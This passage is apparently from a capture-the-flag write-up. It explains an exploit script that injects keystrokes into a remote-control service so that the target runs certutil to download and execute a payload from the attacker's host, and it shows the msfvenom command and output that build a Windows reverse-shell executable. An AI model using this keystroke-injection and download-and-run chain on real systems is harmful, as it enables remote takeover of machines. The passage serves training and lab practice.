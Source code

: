 Looking at the code, the `main` function basically sends a series of commands / keystrokes:

```

def main():
	target.connect((rhost,port))
	sleep(0.5)
	print("[+] Connecting to target...")
	target.sendto(open,(rhost,port)) 	# Initialize Connection to Unified
	sleep(0.02)
	target.sendto(open_fin,(rhost,port)) 	# Finish Initializing Connection
	print("[+] Popping Start Menu")
	sleep(0.02)
	SendWin()
	sleep(0.3)
	print("[+] Opening CMD")
	SendString("cmd.exe", rhost)
	sleep(0.3)
	SendReturn()
	sleep(0.3)
	print("[+] *Super Fast Hacker Typing*")
	SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " C:\\Windows\\Temp\\" + payload, rhost) # Retrieve HTTP hosted payload
	sleep(0.3)
	print("[+] Downloading Payload")
	SendReturn()
	sleep(3)
	SendString("C:\\Windows\\Temp\\" + payload, rhost) # Execute Payload
	sleep(0.3)
	SendReturn()
	print("[+] Done! Check listener?")
	target.close()

```

It’s using `certutil` to download a file from the given IP, saving it in `C:\windows\temp`, and then running it.

#### Generate Payload

Because I need to run something that will give a reverse shell without arguments, I’ll just use `msfvenom` to generate a simple reverse shell binary:

```

oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe -o rev.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe

```
